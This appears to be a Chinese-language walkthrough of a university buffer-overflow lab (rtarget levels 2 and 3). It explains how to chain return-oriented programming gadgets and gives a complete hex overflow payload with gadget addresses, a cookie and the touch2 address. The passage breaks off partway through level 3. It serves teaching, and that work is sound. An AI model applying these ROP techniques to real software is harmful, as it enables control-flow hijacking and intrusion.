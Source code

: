 **显然找不到！**  

&emsp;&emsp;对于寄存器间的操作，能找到是正常的。但是对于数字间的赋值操作，找不到也是正常的，因为我们想赋值的数字千变万化，匹配不到很正常。所以对于赋值语句，我们要转换一下思路，不能使用mov语句来赋值，而应该使用别的，不是立即数形式的赋值语句，并且最好还和栈帧有关，因为我们只能在栈帧注入代码，换言之，我们所想要赋的值就保存在栈帧里。  

&emsp;&emsp;仔细遍历一下指令集，发现popq正好满足我们的要求！popq是将当前rsp的值赋值给某个寄存器，然后rsp+8。  

&emsp;&emsp;那么就好办了，我们将cookie值注入栈帧中，先是popq给某个寄存器，然后再通过ret跳转到mouv %rax,%rdi语句，然后再通过ret跳转到touch2函数。 
 
```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

&emsp;&emsp;仔细观察代码，发现在0x4019ab有一个gadget，且58是popq %rax，90是nop占位指令，恰好满足我们的要求。  

&emsp;&emsp;所以栈帧顺序是这样的：
1.	记录getbuf返回地址的rsp值应该是0x4019ab，用于跳转到popq %rax指令，跳转后rsp+8的值就是popq的值，也即是cookie值。
2.	在完成popq操作后，rsp再度加8变成rsp+0x10，此时ret返回应该是跳转到mov %rax,%rdi处，所以rsp+16是0x4019a2。
3.	执行完赋值语句后，程序应该通过ret跳转到touch2函数，所以rsp+0x18处存放到应该是touch2的程序入口地址。  

![Attack-rl2](Attack-rl2.png "Attack-rl2")

代码如下：
```
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00    popq
fa 97 b9 59 00 00 00 00    cookie
a3 19 40 00 00 00 00 00    mov
ec 17 40 00 00 00 00 00    touch2
```

#	Rtarget-level-3
##	问题描述
&emsp;&emsp;和ctarget-level-3一样，只不过这次用ROP攻击方式。

##	解决思路
&emsp;&emsp;这题咋一看挺简单的，因为从level2我们就知道了用popq弹出栈帧内容并且赋值给rdi的方法。然而真正处理的时候才发现坑很大。  

&emsp;&emsp;首先，level3要输入的是字符串的地址，并且这个字符串是9位的！！不是8位的。这时候查表，我们可以找到将rsp赋值给rax的字节码。  

&emsp;&emsp;然而问题来了，将rsp赋值给rax后，rsp的内容并没有改变，此时ret返回的地址是rsp当前的值，也就是作为touch3参数的cookie值。而接下来ret将会以cookie值作为程序地址跳转，这显然是不行的。  

&emsp;&emsp;于是我们思考，能不能找到一个语句，在将rsp的内容赋值给rax之后，对rsp的值进行更改？确实有，那就是popq。所以我们的目标是，找到一句rsp赋值语句后接pop的字节码。  

&emsp;&emsp;然而找不到。此路不通。嗯，接下来，想到秃头也没想到怎么办才好，那就只能谷歌了。  

仔细观察代码，发现有一句：
```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```
